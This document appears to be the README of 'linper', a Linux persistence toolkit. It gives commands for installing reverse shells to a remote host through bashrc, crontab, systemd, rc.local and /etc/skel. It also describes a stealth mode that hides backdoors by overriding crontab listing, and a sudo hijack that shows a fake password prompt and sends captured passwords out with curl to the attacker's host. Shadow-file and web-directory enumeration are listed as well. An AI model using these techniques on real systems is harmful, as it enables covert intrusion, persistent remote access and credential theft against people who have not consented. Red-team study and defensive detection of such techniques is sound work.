 # linper

linux persistence toolkit - enumerate, install, or remove persistence mechanisms

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

#### caveats

- This functionality is designed to remove reverse shells installed using this tool however since this tool uses common/well-known techniques, it may also be used to remove unwanted reverse shells if you know the C2 domain/IP
- The cleaning mechanism does not remove any bash aliases from the `-s,--stealth-mode` options (though that is being planned, see TODO.md)

## methodology

### installing

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

##### caveats

1. If you run `-s, --stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bashrc because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)

2. If you use the clean function after installing in stealth mode, it will break the `crontab` function in the bashrc, currently working on a way to completely remove the function so it does not print any errors to screen

### cleaning

1. To remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. To remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. To remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. To remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc: every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab: every minute (this can be changed by altering the $CRON variable at the top of the script) (see TODO.md)
- systemctl: at system startup
- /etc/rc.local: at system startup
- /etc/skel/.bashrc: after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary 
